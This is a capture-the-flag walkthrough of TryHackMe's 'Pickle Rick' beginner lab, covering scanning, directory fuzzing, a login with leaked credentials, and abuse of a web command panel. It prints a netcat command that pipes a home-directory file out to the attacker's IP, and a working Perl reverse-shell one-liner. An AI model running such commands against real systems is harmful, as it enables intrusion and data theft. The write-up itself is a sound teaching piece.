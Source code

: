 # Pickle Rick
This is a truly fun, easy box, great for beginners, and quite entertaining for 'Rick and Morty' fans.

![Pickle-Rick](../Images/thm_pickle-rick_1.png)

**Tools: nmap, dirsearch, netcat.**

Because TryHackMe's machines don't have specific IPs assigned to them (and I had to restart my instance during the CTF, thus changing its IP), I'll simply use \<targetIP> where you should put the target's IP.

We begin with the nmap scan:  
`nmap -Pn -sC -sV --min-rate=10000 <targetIP>`

![Pickle-Rick](../Images/thm_pickle-rick_2.png)

Ports 22 (SSH) and 80 (HTTP) are open. Taking a look at the webpage, we see the following:

![Pickle-Rick](../Images/thm_pickle-rick_3.png)

So we're tasked with finding 3 flags (ingredients). Looking at the page's source, we also see this:

![Pickle-Rick](../Images/thm_pickle-rick_4.png)

We'll save the username for later. Now we can run a fuzzer, such as dirsearch:  
`dirsearch -u http://<targetIP>`

![Pickle-Rick](../Images/thm_pickle-rick_5.png)
  
The robots.txt file shows us 'Wubbalubbadubdub'. The login.php brings us a login form, we can try to authenticate using the username we've just found, and maybe the string from the robots file as the password...
  
![Pickle-Rick](../Images/thm_pickle-rick_6.png)
  
We're able to login with those credentials. In the webpage we see a Command Panel. In the www-data user root directory, we can see a txt file containing a 'super secret ingredient', which we can read directly from the browser - this is our first ingredient.  
`http://<targetIP>/Sup3rS3cretPickl3Ingred.txt`

![Pickle-Rick](../Images/thm_pickle-rick_7.png)
  
For the next steps, keep in mind that the 'cat' command is disabled for this command panel, so we can't easily read the files. After some manual enumeration, I found the 'second ingredients' file at /home/rick, so I've managed to send this file to my VM through a quick netcat reverse shell.

In your machine start a netcat session:  
`nc -vnlp 9003 > file.txt`

![Pickle-Rick](../Images/thm_pickle-rick_8.png)

Then in the command panel:  
`/bin/sh | nc <yourIP> 9003 < /home/rick/'second ingredients'`

![Pickle-Rick](../Images/thm_pickle-rick_9.png)

Simply read the file.txt to grab the second ingredient.  
Using sudo -l shows us that we can run everything with 'sudo'.

![Pickle-Rick](../Images/thm_pickle-rick_10.png)

I've tried quite a few creative ways to grab the flag from the command panel, but nothing worked. I've decided to start a reverse shell.  
In your machine start a netcat session:  
`nc -vnlp 9003`

Then in the command panel, you can run this perl revshell (just change the IP to your VPN's IP):
`perl -e 'use Socket;$i="<yourIP>";$p=9003;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

![Pickle-Rick](../Images/thm_pickle-rick_11.png)

Now with the reverse shell in our machine, we can spawn a fully interactive shell (for the sake of it, I always do this):  
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Now, after some previous enumeration, I've seen that inside the /home/ubuntu there are some hidden files (which we can see by using the 'ls -la' command), one of them is the .bash_history, and if we read this file we'll be able to grab the 3rd ingredient.  
`cat /home/ubuntu/.bash_history`

Another way of doing this is by reading the txt file from the '/root' directory.

**That's all for this box!**  
Thanks for reading and keep hacking!
